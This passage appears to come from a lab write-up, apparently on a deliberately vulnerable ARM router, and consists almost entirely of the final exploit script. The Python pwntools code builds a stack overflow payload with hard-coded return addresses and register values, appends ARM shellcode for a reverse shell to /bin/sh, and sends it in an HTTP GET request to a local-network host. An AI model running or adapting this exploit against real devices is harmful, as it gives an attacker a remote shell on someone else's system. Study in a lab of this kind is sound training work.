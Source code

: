 The final exploit code is as follows:

```python
from pwn import *
import struct

buff = "A"*337
r11 = "AAAA"
lr = 0x4003c8f0 #0x40000000 + 0x0003c8f0
stuff = "A"*16
r3 = 0x4004d8d4 #0x40000000 + 0x0004d8d4
r4 = "BBBB"
r5 = "CCCC"
r6 = 0x40052454 #0x40000000 + 0x00052454
r7 = "DDDD"
r8 = "EEEE"
sb = "FFFF"
sl = "GGGG"
fp = "HHHH"
pc = 0x400240fc #0x40000000 + 0x400240fc 
reverse_shell = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x40\x40\x02\x30\x01\x21\x52\x40\x64\x27\xb5\x37\x01\xdf\x06\x1c\x0b\xa1\x4a\x70\x10\x22\x02\x37\x01\xdf\x30\x1c\x49\x40\x3f\x27\x01\xdf\x30\x1c\x01\x31\x01\xdf\x30\x1c\x01\x31\x01\xdf\x06\xa0\x52\x40\x05\xb4\x69\x46\xc2\x71\x0b\x27\x01\xdf\xff\xff\xff\xff\x02\xaa\x11\x5c\xc0\xa8\xe3\x82\x2f\x62\x69\x6e\x2f\x73\x68\x58"

payload = buff
payload += r11
payload += struct.pack("I", lr)
payload += stuff
payload += struct.pack("I", r3)
payload += r4
payload += r5
payload += struct.pack("I", r6)
payload += r7
payload += r8
payload += sb
payload += sl
payload += fp
payload += struct.pack("I", pc)
payload += reverse_shell

conn = remote('192.168.227.128', 80)
conn.send(b'GET /' + payload +"\r\n\r\n")

```

![dvar_26.png](/images/dvar_26.png)
